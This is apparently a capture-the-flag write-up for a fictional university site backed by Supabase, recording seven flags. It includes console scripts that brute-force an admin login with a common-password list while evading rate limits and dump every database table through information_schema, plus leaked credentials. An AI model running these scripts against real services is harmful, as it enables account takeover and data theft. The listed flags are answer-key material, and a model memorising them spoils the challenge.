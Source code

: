 ```yaml
---
ai_date: 2025-04-27 05:21:17
ai_summary: "Found vulnerabilities: XSS, SQL Injection, and Stored XSS in JavaScript, as well as email enumeration and admin credentials exploitation."
ai_tags:
  - xss
  - sql
  - stored-xss
created: 2024-12-09T15:10
points: 450
updated: 2025-07-14T09:46
---
```


## Basics

With just some basic digging we can find two flags.

```txt [robots.txt]
User-agent: *
Disallow: /api/
Disallow: /super-private-do-not-enter/
Allow: /
```

### flag 1

```flag
flag::easy::456e4cf23533dafd6533c4d24d2599adb5e72583
```

```js [page-4b9910aed5976f5d.js]
l.jsx)("div", {
	className: "hidden",
	children: "flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531"
})]
```

### flag 2

```flag
flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531
```

## Allow Signup
Signup doesn't work sadly, even after I patched it to allow any email.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733775042/2024/12/e546bc49ddf87b2d0b2218878c391215.png)

## Leak App

By overriding the source JavaScript, we can leak the variables used in those functions.

At the same time, we also remove the scope on `select *`, maybe it will review more information.

```js [page-4b9910aed5976f5d.js]
(async function() {
	let {data: e, error: s} = await c.from("bulletins").select("*");
	console.log("Database:", c);
	console.log("Bulletin Data:", e);
	s ? console.error("Error fetching bulletins:", s) : t(e)
})()
```

### flag 3
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940127/2024/12/c6d4d63d6af3690db7882c3a2edd94a2.png)

```flag
flag::easy::68e4b805974b53e322e52382e5ce387d1b13f325
```

### Storage Leak
We can see that there is a storage bucket named `university-news`, let's leak it.

```js
let {title: t, children: s, imagePath: i, date: a} = e
  , {data: r} = n().storage.from("university-news").getPublicUrl(i);
```

```js [console]
const {data:files}=await temp1.storage.from("university-news").list('',{
limit: 100,
offset: 0
});
const urls = files.map(e=>temp1.storage.from("university-news").getPublicUrl(e.name).data.publicUrl);
[
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/ancient.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/cthulhu.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/herbert-west.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README%20(1).md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README.md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/squid.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/student-campus.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/symposium.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/university-front.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/wireframe.jpg"
]
```

## Storage Info
We find this inside `README.md` and `README (1).md`.

```
connect to ap-southeast-2 ec2
connect to db postgres.kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"

connect to ap-southeast-2 ec2
connect to db as cultist on project kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"
```

Welp, can't connect to them due to IP restrictions.

## Signup Attempt 2

Ok, since sign up via UI doesn't work, I shall just call the methods directly.

```js [console]
console.log(await temp2.auth.signUp({
  email: 'me@gmail.com',
  password: 'password',
}));
```

Huh it works, I got an email and can login now.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940850/2024/12/30a1e0c964e8b646d241e724c1e900be.png)
### flag 4

```flag
flag::easy::4a7314c446cfb28b31118bc606a82627ac18779e
```

## Sign In as Admin

On the site we can find a email `herbert.west@miskatonicuniversity.us`, let's try to login as that with 10k passwords.

```js [console]
const passwords = (await fetch("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10k-most-common.txt").then(r=>r.text())).split("\n");
const sleep = ms => new Promise(r => setTimeout(r, ms));
for(let i=0;i<passwords.length;){
    console.log("trying",i);
    const {data, error}=await temp1.auth.signInWithPassword({email:"herbert.west@miskatonicuniversity.us", password:passwords[i]});
    if(error) {
        if(error.message==="Request rate limit reached"){
            await sleep(500);
            continue
        } else {i++;continue}
    }
    console.log("yay",data)
    break;
}
```

## Leak all Tables

```js [console]
const tables = (await temp1.schema("information_schema").from("tables").select("*")).data;
for(let table of tables){
    const {data, error} = await temp1.schema(table.table_schema).from(table.table_name).select("*");
    if(error)continue;
    console.log("======",table.table_schema,".",table.table_name,"=======");
    console.table(data);
}
```

### `public.staff`

| (index) | id  | first_name  | last_name  | email                                                          |
| ------- | --- | ----------- | ---------- | -------------------------------------------------------------- |
| 0       | 1   | 'Herbert'   | 'West'     | 'herbert.west@miskatonicuniversity.us'                         |
| 1       | 2   | 'Henry'     | 'Armitage' | 'henry.armitage@miskatonicuniversity.us'                       |
| 2       | 3   | 'Ferdinand' | 'Ashley'   | 'ferdinand.ashley@miskatonicuniversity.us'                     |
| 3       | 4   | 'Allen'     | 'Halsey'   | 'allen.halsey@miskatonicuniversity.us'                         |
| 4       | 5   | 'Albert'    | 'Wilmarth' | `flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae` |

### flag 5

```flag
flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae
```

## DNS
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734027236/2024/12/9bdc4713e9ba3ff531554d9a4ec01d69.png)
### flag 6

```flag
flag::easy::2c4452b6c23b2be707fcab43689ec06b7a91b6a5
```

## Wayback Machine

[web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey](https://web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey)

```
...
https://miskatonicuniversity.us/api/
https://miskatonicuniversity.us/atom.xml
https://miskatonicuniversity.us/even-more-super-private-do-not-enter
https://miskatonicuniversity.us/favicon.ico
https://miskatonicuniversity.us/feed/
https://miskatonicuniversity.us/feeds/all.atom.xml
...
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734028108/2024/12/e017289da9023035a9e61331ac7f053c.png)

### flag 7

```flag
flag::intermediate::f49ae1ae7e56e8982fd0bb6ffc16c0f3d23a81b3
```